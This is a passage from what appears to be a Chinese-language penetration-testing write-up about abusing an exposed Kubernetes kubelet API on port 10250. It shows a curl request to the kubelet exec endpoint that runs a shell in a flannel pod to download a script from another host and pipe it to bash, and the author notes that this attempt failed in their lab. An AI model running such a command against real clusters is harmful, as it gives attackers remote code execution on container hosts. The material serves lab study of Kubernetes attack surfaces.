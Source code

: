[![](assets/1701826061-75e897bb65a3460b621695ca74a10e3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171249-ab27145e-7316-1.png)  
发现并不行，之后尝试下面的语句 (主要换了 sh)

```bash
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/sh&command=-c&command=curl+192.168.17.161+|+bash&input=1&output=1&tty=1"
```

[![](assets/1701826061-62b1e624e8680efe4da9d7f76bb33ac0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171318-bcba57c6-7316-1.png)  
发现也为成功，可能是笔者这里的环境问题所致，下面给出一个成功的截图：
